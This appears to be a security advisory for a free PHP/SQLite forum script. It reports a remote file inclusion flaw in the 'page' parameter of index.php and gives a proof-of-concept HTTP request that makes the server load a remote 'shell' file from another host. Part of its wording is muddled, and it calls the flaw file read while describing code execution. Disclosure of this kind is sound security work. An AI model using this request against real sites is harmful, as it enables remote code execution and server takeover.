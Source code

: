 # Simple Forum Website using PHP and SQLite3 Source Code Free Download - Arbitrary file read vulnerability
+ Author: xuanluansec
# Vendor Homepage
+ https://www.sourcecodester.com/php/16423/simple-forum-website-using-php-and-sqlite3-source-code-free-download.html
# Software Link
+ https://www.sourcecodester.com/sites/default/files/download/oretnom23/php-sqlite-forum.zip
# Overview
+ xuanluansec has discovered a vulnerability classified as critical in Simple Forum Website using PHP and SQLite3 Source Code Free Download V1.0. Any file contains. This operation will result in unrestricted file inclusion, allowing remote execution of arbitrary code.
# Vulnerability Details
+ Simple Forum Website using PHP and SQLite3 Source Code Free DownloadV1.0
+ Vulnerable File: index.php
+ Parameter Names: page
+ Attack Type: Remote
# Description
+ xuanluansec has discovered a vulnerability classified as critical in Simple Forum Website using PHP and SQLite3 Source Code Free Download V1.0. Any file contains. This operation will result in unrestricted file inclusion, allowing remote execution of arbitrary code.
# Note
+ Need to register a user with arbitrary permissions.
![1](https://github.com/xuanluansec/vul/blob/main/vul/img/22.png)

# Proof of Concept (PoC) : 

```
GET /index.php?page=http://192.168.166.1:8888/shell HTTP/1.1
Host: www.php-sqlite-forum.com:8095
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:124.0) Gecko/20100101 Firefox/124.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=drgqvt3vblngekc6rqgraeor32
Upgrade-Insecure-Requests: 1


```

![2](https://github.com/xuanluansec/vul/blob/main/vul/img/21.png)

